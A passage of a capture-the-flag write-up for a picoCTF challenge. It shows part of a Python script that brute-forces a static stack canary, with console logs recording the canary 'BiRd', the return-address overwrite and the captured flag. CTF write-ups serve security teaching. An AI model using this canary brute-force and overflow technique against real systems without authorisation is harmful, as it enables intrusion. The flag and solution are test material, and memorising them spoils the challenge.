 ```python
    if "Smashing" in resp:
        log.info("FAIL")
        return False
    else:
        log.info("************ SUCCESS *************")

        print(resp)
        print(resp2)
        return True

```

After many iterations, we get the correct canary:
```
[x] Opening connection to saturn.picoctf.net on port 50553
[x] Opening connection to saturn.picoctf.net on port 50553: Trying 18.217.86.78
[+] Opening connection to saturn.picoctf.net on port 50553: Done
How Many Bytes will You Write Into the Buffer?
> 
88
Curr canary: BiRd
```

And then, we'll overwrite the return address and get:
```
[x] Opening connection to saturn.picoctf.net on port 50553
[x] Opening connection to saturn.picoctf.net on port 50553: Trying 18.217.86.78
[+] Opening connection to saturn.picoctf.net on port 50553: Done
How Many Bytes will You Write Into the Buffer?
> 
88
Curr canary: BiRd

[*] Closed connection to saturn.picoctf.net port 50553
[*] ************ SUCCESS *************
Ok... Now Where's the Flag?

picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}
```